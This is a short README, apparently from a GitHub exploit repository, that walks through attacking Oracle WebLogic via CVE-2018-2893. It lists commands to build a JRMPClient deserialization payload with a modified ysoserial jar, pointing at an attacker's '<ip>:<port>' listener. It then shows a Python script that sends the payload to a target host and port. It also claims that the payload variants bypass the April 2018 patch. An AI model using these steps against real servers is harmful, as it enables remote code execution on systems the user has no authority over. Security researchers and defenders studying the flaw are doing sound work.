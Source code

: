 # CVE-2018-2893

## Tools author

https://github.com/pyn3rd/CVE-2018-2893

## Step 1

`java -jar ysoserial-cve-2018-2893.jar`

```
WHY SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
Available payload types:
     Payload     Authors   Dependencies
     -------     -------   ------------
     JRMPClient  @mbechler
     JRMPClient2 
     JRMPClient3 
     JRMPClient4 
     Jdk7u21     @frohoff
```

## Step 2

`java -jar ysoserial-cve-2018-2893.jar  JRMPClient4 "<ip>:<port>" > poc4.ser`

## Step 3

`python weblogic.py <host> <port> poc4.ser`


### Note: Any one of  JRMPClient2|JRMPClient3|JRMPClient4 can be utilized to  bypass the Critical Patch Update April 2018.

